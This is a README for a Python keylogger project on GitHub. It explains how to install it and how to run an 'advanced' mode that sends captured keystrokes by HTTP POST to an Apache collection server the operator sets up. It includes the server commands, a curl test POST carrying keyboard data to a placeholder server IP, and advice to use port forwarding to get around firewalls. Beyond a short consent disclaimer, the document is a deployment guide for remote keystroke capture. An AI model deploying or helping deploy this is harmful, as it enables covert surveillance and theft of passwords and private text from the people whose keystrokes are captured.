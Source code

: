 <h1 style="width:100%; text-align:center;">Py-Keylogger</h1>

Author: Prasanna Acharya

> ### Keyloggers can be a serious privacy concern and are illegal if used without explicit consent. Ensure you use such scripts only in legal and ethical scenarios.

## Installation

```bash
$ git clone https://github.com/imprasanna/py-keylogger
$ cd py-keylogger
$ python3 -m pip install -r requirements.txt
```

## Usage

There are two scripts for the keylogger. Let's run the simple one.

```bash
python3 simple.py
```

After running this script, the keystrokes on the same device will be recorded in the terminal.

## Advanced Usage

Script Reference: [David Bombal Github](https://github.com/davidbombal/python-keylogger)

To use this keylogger, set up the apache server on the device which will be recording the keystrokes and then run the script on the host device.

### Apache Server Setup

First, set up the apache server in the listening machine. <br>

This script works based on POST requests, so configure the server so that it can receive the POST data. <br>

- Copy the `receive_post.php` file to the given directory:

```bash
sudo cp ./receive_post.php /var/www/html/
```

- Set proper permissions for the file:

```bash
sudo chown www-data:www-data /var/www/html/receive_post.php
sudo chmod 644 /var/www/html/receive_post.php
```

- Create a log file and set proper permissions

```bash
sudo touch /var/log/apache2/post_requests.log
sudo chown www-data:www-data /var/log/apache2/post_requests.log
sudo chmod 664 /var/log/apache2/post_requests.log
```

- Run the apache server

```bash
sudo service apache2 start
sudo service apache2 enable
```

- Test the working by sending a test POST reqeust

```bash
curl -X POST http://<your_server_ip>/receive_post.php -H "Content-Type: application/json" -d '{"keyboardData": "test data"}'
```

- Read the POST data in the post_requests.log file

```bash
cat /var/log/apache2/post_requests.log
```

---

<br>
Now, you need to change the IP in the main.py script and then run the script in the host machine.

```bash
python3 main.py
```

<br>

> Note: _Use port forwarding if the Server IP is blocked by firewall._
